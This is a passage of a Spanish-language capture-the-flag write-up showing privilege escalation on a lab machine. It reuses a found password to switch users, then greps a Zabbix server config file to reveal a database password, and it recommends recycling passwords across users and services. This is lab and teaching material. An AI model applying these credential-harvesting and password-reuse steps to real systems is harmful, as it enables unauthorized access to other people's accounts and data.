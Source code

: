 ```
zabbix@shibboleth:/$ whoami
zabbix
zabbix@shibboleth:/$ pwd
/
zabbix@shibboleth:/$ cd /home
zabbix@shibboleth:/home$ ls -la
total 12
drwxr-xr-x  3 root     root     4096 Oct 16  2021 .
drwxr-xr-x 19 root     root     4096 Oct 16  2021 ..
drwxr-xr-x  3 ipmi-svc ipmi-svc 4096 Oct 16  2021 ipmi-svc
```
Somos el usuario zabbix pero no tenemos ni un home. En cambio hay otro usuario con directorio home, lo que me lleva a pensar que hay que escalar a él. Si recuerdas tenemos una contraseña. ¡IMPORTANTE!; Recuerda las contraseñas que tienes para reciclarlas para otros usuarios y servicios. Tenemos la contraseña ilovepumkinpie1, probemos:
```
zabbix@shibboleth:/home$ su ipmi-svc
Password: 
ipmi-svc@shibboleth:/home$ whoami
ipmi-svc
```
Funciona. Ahora hay que escalar a root.

Esta vez en vez de hacer lo de siempre, el procedimiento típico para buscar vías de escalada, voy a ir al grano. Siguiendo el procedimiento típico hubieramos llegado en la parte de buscar mediante find archivos de configuración. Como hay un zabbix corriendo podemos pensar que tiene algún fichero de configuración.
```
ipmi-svc@shibboleth:/$ find \-name zabbix 2>/dev/null
./var/lib/mysql/zabbix
./var/log/zabbix
./run/zabbix
./etc/zabbix
./usr/share/zabbix
./usr/lib/zabbix

ipmi-svc@shibboleth:/$ ls -l /etc/zabbix
total 92
-r-------- 1 zabbix   zabbix      33 Apr 24  2021 peeesskay.psk
drwxr-xr-x 2 www-data root      4096 Apr 27  2021 web
-rw-r--r-- 1 root     root     15317 May 25  2021 zabbix_agentd.conf
-rw-r--r-- 1 root     root     15574 Oct 18  2021 zabbix_agentd.conf.dpkg-dist
drwxr-xr-x 2 root     root      4096 Apr 27  2021 zabbix_agentd.d
-rw-r----- 1 root     ipmi-svc 21863 Apr 24  2021 zabbix_server.conf
-rw-r----- 1 root     ipmi-svc 22306 Oct 18  2021 zabbix_server.conf.dpkg-dist
```
El fichero `zabbix_server.conf` podría ser interesante.
```
ipmi-svc@shibboleth:/$ cat /etc/zabbix/zabbix_server.conf | grep password -C 8
#
# Mandatory: no
# Default:
# DBUser=

DBUser=zabbix

### Option: DBPassword
#	Database password.
#	Comment this line if no password is used.
#
# Mandatory: no
# Default:
DBPassword=bloooarskybluh

```